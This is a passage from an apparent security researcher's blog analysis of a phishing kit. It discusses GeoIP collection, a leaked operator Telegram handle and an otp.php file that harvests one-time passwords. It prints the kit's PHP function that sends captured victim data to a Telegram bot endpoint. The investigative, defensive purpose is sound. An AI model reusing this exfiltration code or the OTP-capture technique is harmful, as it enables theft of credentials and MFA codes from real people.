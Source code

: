 The rest of the code appears to be implementing some of the different data collections such as the GeoIP lookup. This is not a very complicated piece to set up. None of this information is unusual or hard to get. If you think this is concerning, I regret to inform you that you have not read many Terms of Service and Privacy Policy statements. If even normal applications sometimes gather this information, it makes sense that an infostealer would be interested as to further their phishing targets. Thinking like an adversary for a moment...
> If they have your information and relative Geolocation, then they can call your local bank branch pretending to be you or try phishing other people in that area. Maybe there will be more success? 

Now... quick question: did you spot the next opsec leak?\
If you haven't, go back and look at the `user.php` file. If you did congratulations!\
\
\
%%% SPOILERS FOLLOW %%%\
\
\
The file leaks the username of the individual/group telegram of those running the campaign! Just a quick verification by opening the app, searching for a user given a handle produces a successful fetch!

{{< figure src="/images/scam_telegram_user_check.png" width="600">}} 

Before we go onto Telegram, I want to mention finding one difference between the `north.zip` and `frost.zip` files. Under the north directory was the file `otp.php` that seemed to try and collect One Time Passwords (or potentially Multi Factor Authentication tokens). These usually help prevent login leaks from getting used on your account because the attacker requires that second step of verification before being admitted. However, if they collect that code from you during their phishing login, then they have what is necessary to still get in. I wasn't seeing a lot of difference between the `otp.php` and the `user.php` file, so here is the difference spelled out.

{{< figure src="/images/scam_otp_diff.png" width="600">}} 

Its very minute, but the principles are the same. Get the information submitted from the user, package it up into the message  object, send the message object to the Telegram Bot endpoint which will produce a telegram message for the account owner. Hopefully that is making sense so far. Next, let's look at how these information leaks lead to something more interesting and interact with the bot directly.

## Bot Tokens, API calls, and cURL!
At this point, we have enough information to communicate with the Telegram Bot from what we found in the `config.php` of the zip. Here is a closer view of that code. Notice that the loop structure doesn't really matter in this case as only 1 chat exists. 

```php
<?php

function send_telegram_msg($message){
        // Put Your Telegram Information Here for result to telegram
        $botToken  = '6806888869:***[redacted]***';
        $chat_id  = ['1103***[redacted]***'];


        $website="https://api.telegram.org/bot".$botToken;
        foreach($chat_id as $ch){
                $params=[
                  'chat_id'=>$ch, 
                  'text'=>$message,
                ];
                $ch = curl_init($website . '/sendMessage');
                curl_setopt($ch, CURLOPT_HEADER, false);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, 3);
                curl_setopt($ch, CURLOPT_POST, 3);
                curl_setopt($ch, CURLOPT_POSTFIELDS, ($params));
                curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
                $result = curl_exec($ch);
                curl_close($ch);
```